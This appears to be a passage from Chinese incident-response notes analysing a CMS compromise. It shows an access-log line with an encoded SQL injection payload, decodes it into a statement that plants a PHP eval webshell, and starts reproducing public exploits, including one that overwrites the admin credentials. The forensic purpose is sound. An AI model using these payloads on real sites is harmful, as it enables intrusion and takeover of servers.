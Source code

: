 通过木马创建时间， 查看网站访问日志，定位到IP为：180.xx.xx.3

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/8-2.png)

**3、关联分析**

全局搜索与该IP有关的操作日志：

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/8-3.png)

在脚本木马生成前，有两条比较可疑的访问日志吸引了我们的注意：

```
172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35 HTTP/1.1" 200 67
172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/ad_js.php?aid=19 HTTP/1.1" 200 32
```

对这段POC进行解码，我们发现通过这个poc可以往数据库中插入数据，进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/8-4.png)

解码后：

cfg_dbprefixmyad`SET`normbody`= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHERE`aid` =19 #

综上，可以推测/plus/download.php中可能存在SQL注入漏洞，接下来，收集网上已公开的有以下3种EXP进行漏洞复现。

#### 漏洞复现

**利用方式一：修改后台管理员**

1、新建管理员账号test/test123789，可以成功登录网站后台

2、构造如下注入SQL语句：

```
cfg_dbprefixadmin SETuserid='spider',pwd`='f297a57a5a743894a0e4' where id=19 #
```
